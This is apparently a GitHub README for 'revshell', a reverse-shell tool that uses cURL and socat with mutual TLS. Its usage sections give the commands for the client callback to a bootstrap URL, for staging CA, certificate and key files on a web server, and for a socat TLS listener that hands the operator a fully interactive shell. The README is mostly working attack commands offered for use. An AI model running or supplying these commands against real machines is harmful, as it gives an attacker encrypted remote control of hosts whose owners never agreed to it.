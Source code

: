 # revshell
#### Unsneaky and somewhat ghetto reverse shell with mutual TLS authentication, using cURL and socat

## Introduction
This simple reverse shell can be used to establish an encrypted and authenticated connection back to your remote host.  
Besides that, you even get a fully interactive shell - tab complete all day long, if you wish to do so.  
  

The reverse connection is configured using a bootstrap URL, provided either by a command line argument or environment variables.  

## Usage

### Client - Command line argument
```
$ revshell "https://example.com/bd7751b6ec39"
```

### Client - Environment variables
```
$ export REVSHELL_BOOTSTRAP_URL="https://example.com"; export REVSHELL_BOOTSTRAP_TOKEN="bd7751b6ec39"
$ revshell
```

### Bootstrap provider
```
$ mkdir /var/www/html/bd7751b6ec39
$ echo -n "example.com:443" > /var/www/html/bd7751b6ec39/endpoint
$ cp ca/keys/ca.crt /var/www/html/bd7751b6ec39/ca
$ cat ca/keys/client.crt ca/keys/client.key > /var/www/html/bd7751b6ec39/cert
```

### Server
```
$ cat ca/keys/example.com.crt ca/keys/example.com.key > ca/keys/server.pem
$ socat file:`tty`,raw,echo=0 openssl-listen:443,reuseaddr,cert=ca/keys/server.pem,cafile=ca/keys/ca.crt
```
